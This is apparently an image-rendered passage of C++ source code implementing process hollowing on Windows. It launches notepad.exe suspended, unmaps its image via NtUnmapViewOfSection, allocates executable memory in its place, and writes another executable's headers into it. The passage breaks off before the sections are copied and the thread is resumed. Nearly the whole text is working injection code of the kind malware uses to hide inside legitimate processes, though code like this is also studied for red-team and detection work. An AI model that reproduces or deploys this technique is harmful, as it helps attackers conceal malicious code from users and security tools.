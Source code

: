 ```cpp
    DWORD BlockSize;
} BASE_RELOCATION_BLOCK, *PBASE_RELOCATION_BLOCK;

typedef struct BASE_RELOCATION_ENTRY {
    USHORT Offset : 12;
    USHORT Type : 4;
} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;

int main()
{
    // create destination process - this is the process to be hollowed out
    LPSTARTUPINFOA si = new STARTUPINFOA();
    LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
    PROCESS_BASIC_INFORMATION *pbi = new PROCESS_BASIC_INFORMATION();
    DWORD returnLenght = 0;
    CreateProcessA(NULL, (LPSTR)"c:\\windows\\syswow64\\notepad.exe", NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, si, pi);
    HANDLE destProcess = pi->hProcess;

    // get destination imageBase offset address from the PEB
    NtQueryInformationProcess(destProcess, ProcessBasicInformation, pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLenght);
    DWORD pebImageBaseOffset = (DWORD)pbi->PebBaseAddress + 8; 

    // get destination imageBaseAddress
    LPVOID destImageBase = 0;
    SIZE_T bytesRead = NULL;
    ReadProcessMemory(destProcess, (LPCVOID)pebImageBaseOffset, &destImageBase, 4, &bytesRead);

    // read source file - this is the file that will be executed inside the hollowed process
    HANDLE sourceFile = CreateFileA("C:\\temp\\regshot.exe", GENERIC_READ,    NULL, NULL, OPEN_ALWAYS, NULL, NULL);
    DWORD sourceFileSize = GetFileSize(sourceFile, NULL);
    LPDWORD fileBytesRead = 0;
    LPVOID sourceFileBytesBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sourceFileSize);
    ReadFile(sourceFile, sourceFileBytesBuffer, sourceFileSize, NULL, NULL);

    // get source image size
    PIMAGE_DOS_HEADER sourceImageDosHeaders = (PIMAGE_DOS_HEADER)sourceFileBytesBuffer;
    PIMAGE_NT_HEADERS sourceImageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew);
    SIZE_T sourceImageSize = sourceImageNTHeaders->OptionalHeader.SizeOfImage;

    // carve out the destination image
    NtUnmapViewOfSection myNtUnmapViewOfSection = (NtUnmapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtUnmapViewOfSection"));
    myNtUnmapViewOfSection(destProcess, destImageBase);

    // allocate new memory in destination image for the source image
    LPVOID newDestImageBase = VirtualAllocEx(destProcess, destImageBase, sourceImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    destImageBase = newDestImageBase;

    // get delta between sourceImageBaseAddress and destinationImageBaseAddress
    DWORD deltaImageBase = (DWORD)destImageBase - sourceImageNTHeaders->OptionalHeader.ImageBase;

    // set sourceImageBase to destImageBase and copy the source Image headers to the destination image
    sourceImageNTHeaders->OptionalHeader.ImageBase = (DWORD)destImageBase;
    WriteProcessMemory(destProcess, newDestImageBase, sourceFileBytesBuffer, sourceImageNTHeaders->OptionalHeader.SizeOfHeaders, NULL);

    // get pointer to first source image section
```